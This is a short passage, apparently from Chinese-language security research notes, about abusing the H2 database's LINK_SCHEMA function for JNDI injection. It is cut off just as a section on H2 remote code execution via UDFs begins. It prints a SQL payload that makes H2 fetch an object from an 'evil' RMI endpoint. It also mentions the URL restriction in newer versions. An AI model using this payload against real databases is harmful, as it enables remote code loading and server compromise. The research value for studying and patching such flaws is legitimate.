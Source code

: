 ![image-20230810111614358](./../.gitbook/assets/image-20230810111614358.png)

翻了一下H2的函数文档，发现一处可能造成JNDI注入的。`LINK_SCHEMA`

http://www.h2database.com/html/functions.html#link_schema

![image-20230810111117389](./../.gitbook/assets/image-20230810111117389-1691679021218-1.png)

```
SELECT * FROM LINK_SCHEMA('p4d0rn', 'javax.naming.InitialContext', 'rmi://127.0.0.1:8025/evil', 'p4d0rn', 'p4d0rn', 'PUBLIC');
```

同样高版本对URL进行了限制，只允许java开头

# 0x03 h2 RCE

JNDI注入受到不出网的限制，能否直接执行命令呢

## UDF执行

